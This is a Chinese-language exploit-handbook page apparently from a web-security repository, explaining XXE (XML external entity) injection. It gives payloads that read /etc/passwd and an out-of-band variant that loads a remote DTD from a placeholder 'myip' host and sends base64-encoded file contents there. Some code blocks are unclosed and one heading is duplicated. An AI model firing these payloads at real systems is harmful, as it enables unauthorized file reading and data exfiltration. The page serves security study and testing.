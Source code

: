 # EXP手册-XXE Injecton(XML External Entity Injection)
## 基础知识
XXE(XML External Entity),即是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。   
关键在DTD的引用。   
```
\\实例代码
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```
DTD(The document type definition)，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。   
```
<!ENTITY 实体名 SYSTEM url > //外部实体
<!ENTITY 实体名 实体的值 > //内部实体
```

```
入门：  
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
- [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
![](https://raw.githubusercontent.com/ReAbout/web-exp/master/images/xxe-injection.svg?sanitize=true)
## XXE漏洞利用
前提条件：允许外部实体引用。   
按服务端语言有PHP、JAVA、JAVA(Android)一般解析函数都是默认不开启的、Python、libxml。   
漏洞利用方法分：   
- 回显读取文件   
- 不带回显读取文件-OOB(Out of Band）    
- 报错回显读取文件-XXE Base Error   
- 远程执行   
### 0x01回显读取文件
读取本地文件payload示例：   
```
<?xml version=”1.0″ encoding=”utf-8″?>

<!DOCTYPE XXE [
<!ELEMENT name ANY >
<!ENTITY XXE SYSTEM "file:///etc/passwd" >]>

<root>
  <name>&XXE;</name>
</root>
```
### 0x01回显读取文件
### 0x02不带回显读取文件-OOB(Out of Band） 
OOB XXE 需要使用到DTD约束自定义实体中的参数实体。参数实体是只能在DTD中定义和使用的实体，以 %为标志定义，定义和使用方法如下    
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY normal "hello">  <!-- 内部普通实体 -->
    <!ENTITY normal SYSTEM "http://xml.org/hhh.dtd">  <!-- 外部普通实体 -->
    <!ENTITY % para SYSTEM "file:///1234.dtd">  <!-- 外部参数实体 -->
    %para;            <!-- 引用参数实体 -->
]>
而且参数实体还能嵌套定义，但需要注意的是，内层的定义的参数实体% 需要进行HTML转义，否则会出现解析错误。   
```
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY % outside '<!ENTITY &#x25; files SYSTEM "file:///etc/passwd">'>
]>
```
>禁止调用同级实体，无法直接读取文件数据通过http回传我们的服务器，所以要用外部实体才能读取数据。   
my.dtd
```
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip/?%file;'>">
%start;
Payload：   
```
注入的内容：   
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://myip/my.dtd">  //调用我们的dtd
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
    %remote;
    %send;
]>
```

### Reference

[Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)   
[Blind XXE详解与Google CTF一道题分析](https://www.freebuf.com/vuls/207639.html)  
